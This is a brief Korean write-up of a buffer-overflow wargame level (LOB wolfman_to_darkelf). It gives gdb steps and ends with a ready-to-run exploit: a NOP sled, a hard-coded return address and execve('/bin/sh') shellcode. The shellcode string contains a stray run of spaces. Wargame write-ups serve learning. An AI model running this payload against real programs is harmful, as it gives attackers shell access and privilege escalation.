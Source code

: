 #week2  
##lob  
###wolfman_to_darkelf  
코드를 확인해보면 이 문제는 egghunter,buffer hunter에 추가하여 argv[1]의 길이를 확인한다.  
이때까지 argv[1]의 길이는 48로 유지했으니 앞의 것들과 방법은 동일하다.  
cp wolfman solfman(같은 길이의 이름)을 해주고   
gdb solfman 해준다.   
disas main을 해준 다음 브레이크 포인트를 strcpy함수가 호출되고 나서인 main+245에 잡아준다.  
r $(python -c 'print("\xbf"*48+" "+"A"*125)')을 한다.  
그리고 x/100s $esp+100 명령어를 통해 argv[2] 주소를 확인    
x/100s $esp+100: esp+100의 주소로부터 100줄의 문자열을 출력한다.    
argv[2]의 주소를 확인했다면 아래와 같은 코드를 완성하면 끝!!!!  
./darkelf $(python -c 'print("\x90"*44+"\xf0\xfb\xff\xbf"+"  "+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\       xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')  

